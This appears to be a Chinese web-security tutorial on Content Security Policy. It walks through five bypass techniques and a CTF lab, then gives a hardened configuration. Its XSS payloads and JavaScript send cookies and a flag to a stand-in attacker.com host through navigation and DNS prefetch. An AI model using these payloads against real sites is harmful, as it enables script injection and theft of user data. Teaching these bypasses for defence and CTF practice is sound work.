

# 🛡️ 内容安全策略 (CSP) 深度攻防：底层防御指令集与 5 大主流 Bypass 破局矩阵

> **安全演进背景**：由于业务系统前端代码极其庞大，单纯依靠输入过滤与输出编码极难 100% 杜绝 XSS 漏洞。
> 为此，W3C 推出了 **内容安全策略（Content Security Policy，CSP）** 作为终极纵深防御体系。通过 HTTP 响应头 `Content-Security-Policy`，服务端可以向浏览器声明一份受信任资源的白名单，严格限制脚本、图片、字体的加载源与内联执行！
> 然而，**“有配置的地方就有疏漏”**。一旦 CSP 规则存在语义缺陷，攻击者即可借力打力，利用白名单 CDN、缺失指令、DNS 预解析等方式彻底击穿 CSP 防线！

---

## 0. 基础前置认知与小白扫盲：内容安全策略（CSP）到底防了什么？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 通俗比喻：浏览器眼前的白名单禁行令
* 传统的 XSS 防御依赖后端转义（把 `<` 转成 `&lt;`），但程序员总有漏网之鱼。
* **CSP（Content Security Policy）的底层设计**：
  * 网站服务器在向浏览器发送 HTTP 响应时，带上一个特殊的响应头：
    `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com`
  * 相当于给浏览器下了一道死命令：“**哪怕页面里真的被黑客插进去了 `<script>alert(1)</script>`，你也不准执行！浏览器只被允许从我白名单指定的域名下载 JS 文件！**”

---

### 2. 为什么铜墙铁壁的 CSP 依然能被黑客绕过？
* **CDN 白名单内的“特洛伊木马”**：
  * 如果白名单里写了允许加载某知名公共 CDN（如 `cdnjs.cloudflare.com`）；
  * 黑客在这个 CDN 上找到了一个带有历史已知漏洞的老版本 JavaScript 库（例如低版本的 AngularJS）；
  * 黑客利用该老版本库自带的客户端模板逃逸漏洞，借刀杀人直接在浏览器里把恶意代码跑起来！
* **`base-uri` 缺失导致的基础路径劫持**：
  * 如果管理员配置 CSP 时忘记限制 `base-uri`；
  * 黑客在页面中插入 `<base href="https://attacker.com/">`；
  * 导致页面原本所有合法的相对路径脚本（如 `<script src="app.js">`），全部被浏览器误导去攻击者的服务器下载并执行！

---

## 一、CSP 策略指令体系与词法解析规则



---

## 二、CSP 5 大主流 Bypass 攻防利用矩阵

### 1. 技巧一：白名单 CDN 结合 JSONP 接口任意执行代码

* **脆弱配置场景**：为了加载常用的 JavaScript 依赖库，开发人员往往在 `script-src` 中配置了大型公共 CDN：
  ```http
  Content-Security-Policy: default-src 'self'; script-src 'self' https://cdnjs.cloudflare.com https://*.qq.com;
  ```
* **攻防突破机理**：
  * CSP 允许浏览器向 `https://*.qq.com` 发送 `<script src="...">` 请求；
  * 而大型互联网公司或 CDN 上存在成百上千个历史遗留的 **JSONP 接口**（如 `https://api.qq.com/user?callback=...`）；
  * JSONP 接口的本质是将回调函数名与数据直接拼接为合法 JavaScript 脚本返回！

#### 🔍 注入 Payload：
```html
<script src="https://api.qq.com/user?callback=alert(document.domain)"></script>
```
* **浏览器行为**：
  1. 检查请求 URL `https://api.qq.com/...`，命中 CSP 允许的 `https://*.qq.com` 白名单，准予放行！
  2. 接口返回内容：`alert(document.domain)({"ret":0});`
  3. 浏览器将其作为合法脚本执行，达成无限制 XSS！

---

### 2. 技巧二：缺失 `base-uri` 导致的 `<base>` 标签相对路径劫持

* **脆弱配置场景**：站点配置了高级的随机 Nonce 防御，禁止了一切内联脚本与未授信源：
  ```http
  Content-Security-Policy: default-src 'self'; script-src 'nonce-rAnd0m123' 'self';
  ```
* **页面中正常的 HTML 结构**：
  ```html
  <script nonce="rAnd0m123" src="/js/app.js"></script>
  ```
* **致命漏洞点**：**CSP 规则中遗漏了 `base-uri` 指令！**
* **底层解析机制**：
  HTML 的 `<base href="...">` 标签用于指定当前页面所有**相对 URL 的基准地址**。若未限制 `base-uri`，攻击者可注入一个恶意的 `<base>` 标签！

#### 🔍 注入 Payload：
```html
<base href="https://attacker.com/">
```
* **劫持效果**：
  浏览器在解析后续的 `<script nonce="rAnd0m123" src="/js/app.js"></script>` 时：
  * 因为它是相对路径 `/js/app.js`，浏览器会依据新的基准地址重定向请求为：
    `https://attacker.com/js/app.js`！
  * **因为该标签原本就带着合法的 `nonce="rAnd0m123"`**，CSP 检查完全合法！
  * 浏览器直接带着合法 Nonce 加载并执行攻击者服务器上的恶意 JavaScript 脚本！

---

### 3. 技巧三：缺失 `object-src` 导致标签类型混淆

* **脆弱配置场景**：`script-src 'self'`，但未显式声明 `object-src`（且 `default-src` 未开启或未设为 `'none'`）：
  ```http
  Content-Security-Policy: script-src 'self';
  ```
* **利用方式**：利用 `<object>` 或 `<embed>` 标签加载外部恶意资源（如包含脚本的 SVG 文件或 Flash 文件）：
  ```html
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  ```

---

### 4. 技巧四：数据外带穿透（当 `connect-src` 严格限制时）

在许多高难度 CTF 赛题中，攻击者通过某种方式拿到了 JS 执行权，但 CSP 设置了极其严苛的对外通信限制：
```http
Content-Security-Policy: script-src 'unsafe-inline'; connect-src 'none'; img-src 'self';
```
* **困境**：`fetch('http://attacker.com')`、`XMLHttpRequest` 以及动态创建的 `` 全部会被浏览器网络拦截！
* **破局方案：利用浏览器顶级导航与预解析通信**

#### (1) 方案 A：页面顶级导航跳转（`location.href`）
* **原理**：CSP 的 `connect-src` 仅限制脚本后台发起的网络请求（AJAX），**完全不限制页面的顶级跳转（Navigation）！**
```javascript
window.location.href = 'http://attacker.com/steal?flag=' + encodeURIComponent(document.cookie);
```

#### (2) 方案 B：DNS 预解析外带（`dns-prefetch`）
* **原理**：现代浏览器为了加速体验，会预先向 DNS 服务器解析 `<link>` 标签中的域名。
```javascript
const link = document.createElement('link');
link.rel = 'dns-prefetch';
link.href = '//' + document.cookie.replace(/[^a-zA-Z0-9]/g, '') + '.attacker.com';
document.head.appendChild(link);
```
* 攻击者在权威 DNS 服务器的查询日志中即可截获外带的 Flag！

---

### 5. 技巧五：DOM Clobbering（DOM 破坏）改写 CSP 决策上下文

当目标应用使用了类似 `strict-dynamic` 的配置，前端依赖某个全局变量加载脚本时：

```html
<script nonce="xyz">
    // 如果 window.config 存在，则从配置加载脚本
    let scriptUrl = window.config ? window.config.url : "/js/default.js";
    let s = document.createElement('script');
    s.src = scriptUrl;
    document.body.appendChild(s);
</script>
```

#### 攻击思路：
如果攻击者能插入纯 HTML 标记（但无法插入可执行 JS）：
利用 HTML 元素的 `id` 与 `name` 属性，可以直接污染 `window` 对象下的变量：
```html
<a id="config"></a>
<a id="config" name="url" href="https://attacker.com/evil.js"></a>
```
* **底层机制**：浏览器解析上述标签后，`window.config.url` 会被强制覆写为该 `<a>` 标签的 `href` 属性（即恶意的 JS 地址）！
* 正常且合法的 `nonce` 脚本在执行时读取了被污染的地址，从而代替攻击者动态创建并加载了恶意脚本，完成 CSP 逃逸！

---

## 三、CTF 实战靶场案例复现

### 靶场情境：受限沙箱下的 Flag 窃取

#### 靶场响应头与 HTML 源码：
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-secretToken999';

<!DOCTYPE html>
<html>
<head>
    <title>Secure Memo</title>
</head>
<body>
    <div id="content">
        <!-- 用户可控的留言板内容回显点 (存在 XSS 注入) -->
        USER_INPUT_HERE
    </div>
    
    <!-- 站点自带的相对路径业务脚本 -->
    <script nonce="secretToken999" src="static/js/main.js"></script>
</body>
</html>
```

### 1. 安全策略审计与漏洞挖掘
* **CSP 指令审查**：
  * `default-src 'self'`：默认只允许同源资源。
  * `script-src 'self' 'nonce-secretToken999'`：脚本只能从同源加载，或者内联脚本必须包含动态随机 Nonce。
  * **审查缺陷：完全没有声明 `base-uri`！**
* **页面逻辑审查**：
  * 页面底部有一个相对路径脚本：`<script nonce="..." src="static/js/main.js"></script>`。
  * 该脚本具备合法的 `nonce` 属性。

### 2. 构造攻击链与恶意服务搭建
1. 在攻击者公网 VPS（`http://attacker.com`）上创建目录与文件：
   `http://attacker.com/static/js/main.js`
   文件内容写入窃取 Flag 脚本：
   ```javascript
   fetch('/api/get_flag')
     .then(r => r.text())
     .then(flag => {
         window.location.href = 'http://attacker.com/steal?data=' + encodeURIComponent(flag);
     });
   ```
2. 向受害者提交留言注入载荷：
   ```html
   <base href="http://attacker.com/">
   ```

### 3. 攻击触发与验证
* 当靶场管理员访问页面时：
  1. `<base href="http://attacker.com/">` 生效；
  2. 原本的 `<script nonce="..." src="static/js/main.js">` 被浏览器解析为从 `http://attacker.com/static/js/main.js` 加载；
  3. 因为该标签带有受信任的 `nonce`，浏览器 CSP 检查直接放行；
  4. 恶意 JS 执行，通过 `window.location.href` 逃脱 `connect-src` 限制，成功将敏感 Flag 回传攻击者服务器！

---

## 四、安全加固金标准：现代化坚不可摧的 CSP 配置

根据 Google 安全团队在 CSP3 规范中的推荐，彻底杜绝所有已知 Bypass 的黄金配置模板为：

```http
Content-Security-Policy: 
    object-src 'none';
    base-uri 'none';
    script-src 'nonce-{RANDOM_SECURE_TOKEN}' 'strict-dynamic';
    connect-src 'self';
    require-trusted-types-for 'script';
```

#### 加固点逐条剖析：
* **`object-src 'none'`**：彻底切断 Flash, Java, PDF 等插件执行面。
* **`base-uri 'none'`**：彻底切断 `<base>` 标签相对路径劫持攻击。
* **`'strict-dynamic'`**：放弃脆弱的域名白名单，仅信任通过合规 Nonce 脚本在运行时动态调用的 API，彻底终结 CDN/JSONP 绕过！

---

## 🔗 相关双向链接
- 上级模块：[[08-XSS与前端攻击面]]
- 前置基础：[[01-反射型、存储型与DOM型XSS的上下文逃逸]]
- 跨站利用：[[03-CSRF跨站请求伪造与SameSite属性攻防]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
